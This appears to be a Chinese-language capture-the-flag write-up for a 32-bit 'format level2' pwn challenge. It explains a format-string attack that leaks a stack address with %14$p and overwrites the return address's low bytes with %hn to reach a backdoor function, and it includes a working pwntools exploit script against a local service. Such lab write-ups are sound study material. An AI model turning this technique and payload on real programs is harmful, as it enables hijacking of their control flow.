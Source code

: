 # format level2

## 文件分析

下载`format_level2`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 逆向

这次打龙不能拿到flag了，但是后门函数还在，可以考虑通过写入返回地址，
跳转到后门函数处输出flag

前置知识：  
%n -> `int_32 *`; %hn -> `int_16 *`; %hhn -> `int_8 *`  
%n只能修改输入的字符串中存在的值  
可以通过%??d来控制已打印字符的数量

查看源代码，发现后门函数地址和返回地址差2个字节，可以采用%hn  
首先talk，找到返回地址，然后再talk，将后门函数写到返回地址里实现攻击

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 42673)

# payload 1
sh.sendline(b'3') # talk with dragon
sh.sendline(b'%14$p') # leak rbp value to get ret after shifting

ret = int(sh.recvuntil(b'\nBut', True)[-10:], 16) - 0x68 + 0x4c # ignore '\nBut' to get pure addr, and shift addr to ret

# payload 2
sh.sendline(b'3') # talk with dragon
sh.sendline(p32(ret) + b'%37651d%7$hn') # ret占4，0x9317 == 37651 + 4

sh.interactive()
```

Done.

